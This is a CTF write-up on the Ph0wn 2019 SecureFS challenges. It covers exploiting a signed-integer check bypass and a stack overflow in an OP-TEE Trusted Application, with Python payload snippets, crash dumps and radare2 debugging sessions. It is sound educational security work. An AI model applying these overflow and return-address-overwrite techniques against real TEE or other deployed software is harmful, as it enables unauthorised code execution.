

Ph0wn 2019 - SecureFS 1 & 2 writeups
====================================

Smart devices oriented CTF, [Ph0wn](https://ph0wn.org/), took place last friday in Sofia Antipolis in France. There were these two *pwn* challenges called *secureFS*. 

Whereas the first one is quite easy, I got stuck on the second one during the CTF because either your payload is working the first time or you are likely to struggle trying to debug what is going on. So the last part will describe how to debug TA using radare2.

Setting up the challenges
-------------------------

Several files are provided to let you spawn your own VM and test your exploit locally :

1. [bddf28fa-86fd-4b5d-9b5e-aad2f2b0c68d.elf](files/bddf28fa-86fd-4b5d-9b5e-aad2f2b0c68d.elf) is a *Trusted Application* (aka TA)
2. [ph0wn_flagstorage](files/ph0wn_flagstorage) is a Linux armv8 userspace application
3. [qemu_image.tar.gz](files/qemu_image.tar.gz) contains the VM to test locally

To setup the challenge, just extract the QEMU archive and launch the `run.sh` script. As the real challenge is listening on network, you can use `socat` to bind a network socket on an application using standard input/output :

```sh
tar xzf qemu_image.tar.gz
cd qemu
socat TCP-LISTEN:8000,reuseaddr,nodelay,fork,end-close exec:"./run.sh",nofork
```

The script `run.sh` is launching a QEMU VM with the following files :

* `bl1.bin` : The bootloader
* `bl32*.bin` : The [OP-TEE OS](https://optee.readthedocs.io/en/latest/), this a TEE using TrustZone for ARMv8. This OS is meant to be used from a Linux driver in the non-secure side.
* `Image` : a Linux kernel
* `rootfs.cpio.gz` : a Linux userspace

Using socat, you can communicate with the input/output of QEMU using `netcat` :

```
nc 127.0.0.1 8000
```

Note that QEMU is launched using the option `-serial stdio`. So the challenge is directly bound to the **serial port** of the VM, more precisely the Linux *console*. This is important as there are several constraints :

1. All characters you are sending are *echoed*
2. Some specials characters are *echoed* differently. For example, if you send the byte 0x00, you will read back '^@' but the target is really receiving your null byte.
3. Some characters are handled by the **serial** driver and won't be given to the target application. These are mostly the serial-controlling bytes (when serial is configured in *text* mode). The important byte to know is **0x04 EOT (end of transmission)** which allow you to **flush** the reading.

First challenge
---------------

When the QEMU VM boot, only one application is spawn on the console. If you inspect the rootfs (see at end for rootfs manipulation commands), you will see a modified `/etc/inittab` :

```
::once:-/bin/login -f ctf # GENERIC_SERIAL
```

The login of `ctf` will spawn the provided Linux application `ph0wn_flagstorage`. This application is quite easy to reverse as there are the symbols and no offuscation.

After Linux boot process, you will see :

```
       _      ___
      | |    / _ \
 _ __ | |__ | | | |_      ___ __
| '_ \| '_ \| | | \ \ /\ / / '_ \
| |_) | | | | |_| |\ V  V /| | | |
| .__/|_| |_|\___/  \_/\_/_|_| |_| ___
| |                |_  \ / _ \/_ |/ _ \
|_|                   ) | | | || | (_) |
                     / /| | | || |\__, |
                    / /_| |_| || |  / /
                   |____|\___/ |_| /_/
                 ~ secure flagstorage ~
What do you want to do?
[P]ut Flag
[G]et Flag
[E]xit
```

So you can run two *commands* : **Put** and **Get** a flag. The decompiled code using Ghidra is quite readable.

Here is the code of the function `get_flag_wrapper()` :

```c
ulonglong get_flag_wrapper(void)
{
  uint ret;
  ulonglong flagIndex;
  char *message;

  printf("Flag id: ");
  flagIndex = get_int();
  if ((int)flagIndex < 10) {
    if ((int)flagIndex != 0) {
      flagIndex = get_flag(flagIndex);
      return flagIndex;
    }
    message = "Access Denied.";
  }
  else {
    message = "Secure Flag Storage can only save up to 10 flags!";
  }
  ret = puts(message);
  return (ulonglong)ret;
}
```

We already notice a bug in this function as `flagIndex` is used as a **signed** integer and we don't check if it is positive. So giving a negative value will pass both checks.

In most CTF, having a string like "Access denied" is a good hint to know what to do :laughing:. As you may guess, the goal is to get the **flag ID 0**.

In the `get_flag()` function, the `flagIndex` variable is given to a TEE application using `TEEC_InvokeCommand()`. If you want to know how to define the `TEEC_Operation` structure inside Ghidra, see at the end.

This latter function only call to a TEE handler to perform an operation. In this challenge, the operation is to get back a stored flag (a character string) given an **index**. The important information is that the `flagIndex` is truncated as a byte in the code :

```c
operation.params[0] = stringBuffer; /* 128-bytes buffer in stack */
operation.params[1] = flagIndex & 0xff;
```

This could be expected as the programmer believe that the maximum value of `flagIndex` is 10, so it can be stored in a byte. But as we can give negative value, the binary mask will transform it into a byte from **0** to 255.

Here is a simple Python function which gives trivial values of signed values from unsigned ones :

```python
def uintToSignedInt(val):
	for i in range(1,257):
		if (-i & 0xff) == val:
			return -i
	return 0
```

There are a lot of solution to get `flagIndex = 0`, the trivial one is : 0xffffffffffffff00 (-256 in signed format). You can check it :

```sh
python -c "print(-256 & 0xff)"
# gives 0
```

To get the flag 0 :

```
> What do you want to do?
[P]ut Flag
[G]et Flag
[E]xit
> G
Flag id: -256
Flag content: ph0wn{XXXXXXXXXXXXXXXX}
```

Second challenge
----------------

As you could expect, the second part is an exploitation of the Tusted Application triggered from the same Linux application.

We will first describe the vulnerability. But for the exploitation, we will see three different methods to develop the exploit :

1. Method 1 : Only using static analysis because *debugging is doubting*...
2. Method 2 : Using the *hidden* UART of OP-TEE as a leak
3. Method 3 : Using a debugger (radare2) to debug your exploit

During the CTF, I tried the first one, and when the exploit was not working (as expected), I tried the third one (which is quite long as you have to learn a lot of things on OP-TEE).

### Identifying the vulnerability

The vulnerability with the `flagIndex` allow you to bypass a check but won't give you much more. So let's check the `put_flag_wrapper()` function. After some variable definition in Ghidra, we get a very clean code :

```c
void put_flag_wrapper(void)
{
  ulonglong length;
  void *rc;

  printf("Flag length: ");
  length = get_int();
  if (0x7f < (int)length) {
    printf("Flags can only have up to %d characters!\n",0x80);
    return;
  }
  printf("Flag content: ");
  read_n(&flag_global_buffer,(size_t)(length & 0xffffffff));
  put_flag(length & 0xffffffff,&flag_global_buffer,1);
  memset(&flag_global_buffer,0,0x80);
  return;
}
```

But wait... Is-it not the same vulnerability ? There is **signed** comparision without checks on negative value. So we can give negative value.

The `put_flag()` function only call the TA asking to store the provided flag of size `length`. As before, before sending the `length` to the TA, the value is truncated in one byte. So there is still a range which is not expected by the programmmer : **from 0x80 to 0xff** (as check is `0x7f < (int)length`).

Now, let's reverse the TA application. This is the ELF provided : `bddf28fa-86fd-4b5d-9b5e-aad2f2b0c68d.elf`. You can also extract it from the rootfs (search for `*.ta` files).

As there are the symbols, you will easily find the `put_flag()` function which looks like :

```c
ulonglong put_flag(int paramTypes, TEE_Param *params)
{
  size_t size;
  ulonglong rc;
  undefined8 newObjPtr;
  char tmp [128];

  memset(tmp,0,0x80);
  if (paramTypes == 0x27) {
    if (flag_id < 10) {
      snprintf(&flag_id_str,7,"flag_%d");
      TEE_MemMove(tmp, params[0], params[1]);
      size = strlen(tmp);
      rc = TEE_CreatePersistentObject(1,&flag_id_str,6,5,0,tmp,(ulonglong)size,&newObjPtr);
      rc = rc & 0xffffffff;
      if ((int)rc == 0) {
        trace_printf("put_flag",0x95,3,1,"Successfully placed flag %s in TEE",&flag_id_str);
        params[2] = flag_id;
        flag_id = flag_id + 1;
        TEE_CloseObject(newObjPtr);
      }
      else {
        trace_printf("put_flag",0x91,1,1,"Placing flag in TEE failed 0x%08x",rc);
      }
    }
    else {
      rc = 0xffff000c;
    }
  }
  else {
    rc = 0xffff0006;
  }
  return rc;
}
```

What happen if we give a flag length from 0x80 to 0xff ? We can overflow the `tmp` stack variable with the `TEE_MemMove()` and write up to 0x80 bytes after the end of `tmp` in the stack. This is our vulnerability for code execution.

In this challenge, exploitation is made easiest as we just have to execute another function called `win()` in the TA. This function copies the challenge flag (`ph0wn{....}`) in the params[0] and the Linux application prints again it after.

So the only thing we have to do is to jump on the `win()` function. Also, OP-TEE (at least this version?) does not have protections like stack canaries (neither ASLR).

### Method 1 : Exploit only from static analysis

As there is no protection in the TA, the exploitation seems quite easy : overflow the stack until overwritting the saved PC (which is generally *pop* in X30 before a ret). I recommand reading this [article](https://thinkingeek.com/2017/05/29/exploring-aarch64-assembler-chapter-8/) for ARM64 (aka. aarch64) basics.

First, if you read the ASM, you will see that x29 and x30 (the **link register**) are stored at the end of the stack, after the local variable (so **before** in terms of memory address). So we won't be able to overwrite them. But, we can overwrite the ones of the **caller**, which is the function `TA_InvokeCommandEntryPoint()` in our case. Also for this function, the x29 and x30 are saved in stack *at the end*. And the end of the caller stack is precisely **just after** the beginning of the stack of our vulnerable function.

To sum up, here is the stack during the overflow :



As described [here](https://developer.arm.com/architectures/learn-the-architecture/armv8-a-instruction-set-architecture/function-calls), the X30 register (aka LR) will become the PC when executing the **ret** instruction. X29 is used to store locally to a function the value of SP. Here the X29 value is not really useful as SP register will not be restored from the stack during our exploit.

We can write X30, but what is the address to write ? As I said, there is no ASLR but you don't know where the function is located in memory... But luckily the system is **little endian**, so low bytes of X30 are stored first in memory and will be the first ones to be overwritten during overflow. You also know that the existing content of this stored X30 is the return address of `TA_InvokeCommandEntryPoint()` which should be inside `__utee_entry()`.

Ghidra tells you that `.text` section starts at offset 0x20. The `win()` function is at the very begining of this section. Expected value of X30 is at offset `0x000033dc` as this is the instruction after the call of `TA_InvokeCommandEntryPoint()`. As usually, MMU mapping (and load address) are at least aligned to 0x1000, you can guess that the ending of `win()` function memory address should looks like `0xXXXXXXXXXXXXY020`, where `Y` is unknown and `X` is the initial content of X30 which won't be overwritten. We only need to overwrite 2 bytes of X30, trying each Y values (16 possibilities).

To sum, here is our attack plan :

1. Ask to put a flag in TEE with negative value, where truncated value is 128 + 8 + 2
2. Write (128+8) dummy bytes and the 0xY020 with Y : 0x0 -> 0xf
3. Get response or detect a crash...

You will find **Y=1**. Exploit file is available in [exploit/method1.py](exploit/method1.py). Here is the interresting part :

```Python
overflowSize = 0x80 + 8 + 2
signedSize = uintToSignedInt(overflowSize)
payload = 'A' * 0x80
payload += 'B' * 8 # X29
payload += '\x20\x10'

putFlagToWin(p, signedSize, payload)
print(read_all(p)) # Print answer
```

You will get the flag as it is copied to `params` and printed in the Linux application later :

```
Placed "Congratulations! The flag is: ph0wn{XXXXXXXXXXXXXXXX}" in flag 0
```

### Method 2 : Debugging using the *hidden* UART

Previous exploit is quite simple but developping an exploit without debugging is difficult. You would have to know **exactly** the stack layout, assume the TA start address is really aligned, ... Here is another method which will give you a lot of debugging information to fix your exploit.

If you search documentation about OP-TEE debugging, you may end up in this [page](https://optee.readthedocs.io/en/latest/building/devices/qemu.html) explaining how to debug TA application using GDB. We will see in the *method 3* how to use a debugger but there is also a very useful information in this page : there a **secure UART** in the default configuration for QEMU !

I cloned OP-TEE and run the provided commands to see what QEMU command is used to get this second UART and I got :

```
qemu-system-aarch64 -nographic -serial tcp:localhost:54320 -serial tcp:localhost:54321 -smp 2 -s -S -machine virt,secure=on -cpu cortex-a57 -d unimp -semihosting-config enable,target=native -m 1057 -bios bl1.bin -initrd rootfs.cpio.gz -kernel Image -no-acpi -append console=ttyAMA0,38400 keep_bootcon root=/dev/vda2 -netdev user,id=vmnic -device virtio-net-device,netdev=vmnic
```

The tips is to use two `-serial` options. The first one will define the Linux console and the second one is the OP-TEE console.

Here is the  new QEMU command (in `run.sh`) :

```sh
rm -f /tmp/flagstorage.in ; mkfifo /tmp/flagstorage.in
rm -f /tmp/flagstorage.out ; mkfifo /tmp/flagstorage.out
qemu-system-aarch64 \
    -nographic \
    -smp 2 \
    -machine virt,secure=on -cpu cortex-a57 \
    -d unimp -semihosting-config enable,target=native \
    -m 1057 \
    -bios bl1.bin \
    -initrd rootfs.cpio.gz \
    -kernel Image -no-acpi \
    -monitor null -chardev stdio,mux=off,signal=on,id=char0 -serial chardev:char0 \
    -monitor null -chardev pipe,id=char1,path=/tmp/flagstorage -serial chardev:char1
```

The new command use two named pipe (`/tmp/flagstorage.in` and `/tmp/flagstorage.out`) for RX and TX or the OP-TEE UART. Then, just launch `run.sh` and `cat /tmp/flagstorage.out`, you will see OP-TEE console.

If you crash the TA, you will get `TEEC_InvokeCommand failed with code 0xffff3024 origin 0x3` on the Linux console. But on the OP-TEE console, you get the registers values when the fault is triggered.

Let's put a flag of size -1 (0xff after truncation) with a pattern :

```
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4A
```

OP-TEE console will give you :

```
E/TC:? 0 User TA prefetch-abort at address 0x3765413665413565 (translation fault)
E/TC:? 0  esr 0x82000004  ttbr0 0x200000e177000   ttbr1 0x00000000   cidr 0x0
E/TC:? 0  cpu #0          cpsr 0x20000100
E/TC:? 0  x0  0000000000000000 x1  0000000000000040
E/TC:? 0  x2  0000000000000000 x3  0000000000000001
E/TC:? 0  x4  000000004002abfc x5  0000000000000000
E/TC:? 0  x6  00000000ffffffff x7  0000000000000020
E/TC:? 0  x8  0000000000000001 x9  000000004001c50a
E/TC:? 0  x10 000000004001412c x11 000000009cc7989c
E/TC:? 0  x12 000000002e02520f x13 000000004002abd8
E/TC:? 0  x14 0000000000000000 x15 0000000000000000
E/TC:? 0  x16 000000000e114434 x17 6d2de8b000000000
E/TC:? 0  x18 3917397200000000 x19 6641396541386541
E/TC:? 0  x20 4132664131664130 x21 000000004002af30
E/TC:? 0  x22 0000000000000027 x23 000000004002af80
E/TC:? 0  x24 0000000000000538 x25 000000004002af88
E/TC:? 0  x26 0000000000000002 x27 0000000000000538
E/TC:? 0  x28 0000000000000000 x29 4134654133654132
E/TC:? 0  x30 3765413665413565 elr 3765413665413565
```

You can see that X19, X20, X29 and X30 have been overwritten. To convert X30 in ASCII :

```sh
echo "3765413665413565" | xxd -r -ps | tac -r -s "."
# e5Ae6Ae7
```

The bytes `e5Ae6Ae7` are at offset 136 (0x88 in hex) in our input.

If you overflow 136 bytes, there is no crash. With 137 bytes, you overwrite first byte of X30 and get a crash. Thanks to the secure UART, you get the 7 remaining bytes of X30 in the crash data : 0x00000000400143XX. You can guess that XX is 0xdc (as this is the expected end of X30 value). The right value for `win()` function is **0x40011020** computed from (0x400143dc - 0x000033dc + 0x20).

Now that we have the right value of X30, the exploit is easy :

So here is our payload :

```Python
x30 = 0x40011020
overflowSize = 0x88 + 8
signedSize = uintToSignedInt(overflowSize)
payload = 'A' * 0x88
payload += p64(x30)
```

### Method 3 : Using a debugger (radare2!) to debug TA

Here is the interresting part which took me a long time. Let's assume the exploit is not simple and the OP-TEE console is deactivated. As TEE is emulated in QEMU, you can debug it from your Host but there are a lot of limitations.

This [page](https://github.com/ForgeRock/optee-build/blob/master/docs/debug.md) describes how to use GDB to debug OP-TEE assuming you have the ELF files, but we haven't. Also, if you follow the steps, you won't get the right address for `.text` section of TA.

There are two difficulty of setting breakpoint in our TA :

* We don't have the address yet
* To use a breakpoint in TA, you have to put it when the MMU config is able to lookup given memory. This means you have to set the breakpoint after the TA has been loaded and from the TEE.

The documentation says that we should first break on function `thread_enter_user_mode()`, then locate where the TA is loaded and then put a breakpoint inside the TA.

Let's start with the first one : breaking in `thread_enter_user_mode()`. This function belongs to the OP-TEE OS and is in the BL32 loaded by QEMU.

The file `bl32.bin` is the **header** of OP-TEE.

```
$ hexdump -C bl32.bin
00000000  4f 50 54 45 02 01 00 00  01 00 00 00 00 00 00 00  |OPTE............|
00000010  00 00 10 0e 00 00 00 00  10 e3 04 00              |............|
0000001c
```

You can find the definition of this structure in the file [optee_utils.c](https://github.com/ARM-software/arm-trusted-firmware/blob/master/lib/optee/optee_utils.c) :

```c
typedef struct optee_image {
  uint32_t load_addr_hi;
  uint32_t load_addr_lo;
  uint32_t image_id;
  uint32_t size;
} optee_image_t;

typedef struct optee_header {
  uint32_t magic;
  uint8_t version;
  uint8_t arch;
  uint16_t flags;
  uint32_t nb_images;
  optee_image_t optee_image_list[];
} optee_header_t;
```

We can extract :

* load_addr_hi = 0x0
* load_addr_lo = 0x0e100000

Now we have the base address of OP-TEE, we have to locate the function `thread_enter_user_mode()`. To do that I compiled OP-TEE add locate the function in the generated binary :

```
000000000e106cc8 <thread_enter_user_mode>:

 e106cc8: 72001cdf  tst w6, #0xff
 e106ccc: f94003e9  ldr x9, [sp]
 e106cd0: 54000100  b.eq  e106cf0 <thread_enter_user_mode+0x28>
 e106cd4: d53b4228  mrs x8, daif
 e106cd8: 531b00a6  ubfiz w6, w5, #5, #1
```

Let's assume the assembly is quite the same and locate it in our file `bl32_extra1.bin`. In Ghidra, you can search for assembly : "Search" -> "Program Text". There is only one hit on "mrs x8" and we identify our function at offset 0x00005a38. On runtime, our function should be at address **0xe105a38**.

Let's try to break on it. To launch QEMU with GDB backend, use option `-s -S`. QEMU will wait a debugger before starting.

You can use radare2 :

```
r2 -d gdb://127.0.0.1:1234 -a arm -b 64 -Dgdb
[0x00000000]> db 0xe105a38
[0x00000000]> dc
hit breakpoint at: e105a38
```

Now, we have to locate our TA in memory. To do that, we will search in memory for the code of our `put_flag()` function which starts with :

```
00100074 fd 7b b4 a9     stp        x29,x30=>put_flag,[sp, #local_c0]!
00100078 02 10 80 d2     mov        x2,#0x80
0010007c fd 03 00 91     mov        x29,sp
```

We will try to locate the bytes fd7bb4a9021080d2 (two first instructions) in memory. According documentation, OP-TEE is likely to map TA from address like 0x40000000, but if you don't know, just search in a wider range.

In radare2 :

```
[0x0e105a38]> e search.in = raw
[0x0e105a38]> e search.from = 0x40000000
[0x0e105a38]> e search.to = 0x40100000
[0x0e105a38]> /x fd7bb4a9021080d2
# Hit at 0x40011074
[0x0e105a38]> pd @ 0x40011074
# This is our function !
```

Radare2 find the instructions at address 0x40011074. Using `pd` (print disassembly), we confirm that this is our function `put_flag()`. Now define a break point on it and remove the first one :

```
[0x0e105a38]> db 0x40011020
[0x0e105a38]> db-0xe105a38
[0x0e105a38]> dc
hit breakpoint at: 40011020
```

Note that a flag is stored at startup so you will break one time at the boot. Then, each time you trigger the "put flag" operation, r2 will break.

Now, you can debug the exploit. Use `drr` command to print registers and use the other debugger commands (help is `d?`).

For example :

```
# Before the call to MemMove :
[0x400110e0]> drr | grep x0
 A0    x0 0x4002ae40          1073917504
# X0 stores the address of our vulnerable buffer :
[0x400110e0]> pxq @x0
0x4002ae40  0x0000000000000000  0x0000000000000000   ................<- Start of buffer
0x4002ae50  0x0000000000000000  0x0000000000000000   ................
0x4002ae60  0x0000000000000000  0x0000000000000000   ................
0x4002ae70  0x0000000000000000  0x0000000000000000   ................
0x4002ae80  0x0000000000000000  0x0000000000000000   ................
0x4002ae90  0x0000000000000000  0x0000000000000000   ................
0x4002aea0  0x0000000000000000  0x0000000000000000   ................
0x4002aeb0  0x0000000000000000  0x0000000000000000   ................<- End of buffer
0x4002aec0  0x000000004002aee0  0x00000000400143dc   ...@.....C.@....<- X29 and X30
0x4002aed0  0x0000000040029400  0x000000004001e000   ...@.......@....
0x4002aee0  0x000000004002af70  0x0000000040011388   p..@.......@....
0x4002aef0  0x000000000e17bf90  0x0000000000000000   ................
0x4002af00  0x000000000e1591e0  0x0000000000000700   ................
0x4002af10  0x000000000e17c188  0x000000000e17c090   ................
0x4002af20  0x0000000000000000  0x0000002700000000   ............'...
0x4002af30  0x000000004002c310  0x00000000000000ff   ...@............
```

Other useful tips
=================

Rootfs (cpio.gz) extraction and packing
-----------------------------

During the CTF, I was trying to patch the binary of the TA which is loaded from Linux userspace. Obviously, I failed as there is some kind of integrity/authentification of the file.

But what can be useful is the commands to extract or modify the Linux rootfs used by QEMU.

Be careful not to change files permissions and UIDs, or the system won't boot again. To ensure permissions are kept, I run the command as root :

To extract the rootfs in `tmp` directory :

```sh
mkdir tmp
cd tmp
unzip ../rootfs.cpio.gz
sudo cpio -id < ../rootfs.cpio
```

Then to pack it again :

```sh
sudo find . | sudo cpio --create --format='newc' > ../rootfs2.cpio
sudo chown you:you ../rootfs2.cpio
gzip ../rootfs.cpio.gz
# + Remove tmp directory
```

Importing structure in Ghidra using source code
-----------------------------------------------

In Ghidra, you can create structure from the UI but you can also import sources files using "File" -> "Parse C Source".

First choose the profile **generic_clib_64**.

Then, you have two solutions :

1. Configure a clean profile corresponding to your target. You will have to add the include directories of **each** included header (even the standard ones) using the `-I` option in the `Parse Option`
2. Construct a standalone header file from the original one using *known* types for Ghidra

For example, for file [tee_client_api.h](https://github.com/OP-TEE/optee_client/blob/master/public/tee_client_api.h), I extracted structure to get this [file](sample.h)
